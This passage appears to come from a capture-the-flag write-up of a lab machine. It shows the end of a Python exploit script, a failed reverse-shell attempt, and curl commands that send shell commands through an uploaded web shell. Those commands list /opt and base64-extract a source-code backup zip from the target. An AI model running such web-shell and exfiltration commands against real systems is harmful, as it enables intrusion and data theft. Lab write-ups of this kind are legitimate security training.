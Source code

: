 ```py
            print(e)
    except KeyboardInterrupt as e:
        print('KeyboardInterrupt')


s.close()
```

This script directly gives command output

![](/assets/img/posts/timing/script-output.png)


But there are some issue while getting reverse shell.
```bash
WARNING: Failed to daemonise. This is quite common and not fatal. Connection refused (111)
```

walking through the filesystem with web shell found a zip file in `/opt` directory.
```bash
❯ curl "http://10.10.11.135/image.php?img=images/uploads/8511adbe6698b34e753367c7f04b629a_tmple20q9e2.jpg" --data "cmd=ls -l /opt"
total 616
-rw-r--r-- 1 root root 627851 Jul 20 22:36 source-files-backup.zip
```

Downloading zip file with base64 encoding
```bash
❯ curl "http://10.10.11.135/image.php?img=images/uploads/8511adbe6698b34e753367c7f04b629a_tmple20q9e2.jpg" --data "cmd=cat /opt/source-files-backup.zip|base64 -w 0" > source-files-backup.zip.b64
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  817k    0  817k  100    48   123k      7  0:00:06  0:00:06 --:--:--  150k

❯ cat source-files-backup.zip.b64| base64 -d > source-files-backup.zip
❯ file source-files-backup.zip
source-files-backup.zip: Zip archive data, at least v1.0 to extract, compression method=store
```

Zip file contains websile source code.
```bash
❯ unzip -q source-files-backup.zip
❯ cd backup
❯ tree
.
├── admin_auth_check.php
├── auth_check.php
├── avatar_uploader.php
├── css
│   ├── bootstrap.min.css
│   └── login.css
├── db_conn.php
├── footer.php
├── header.php
├── image.php
├── images
│   ├── background.jpg
```
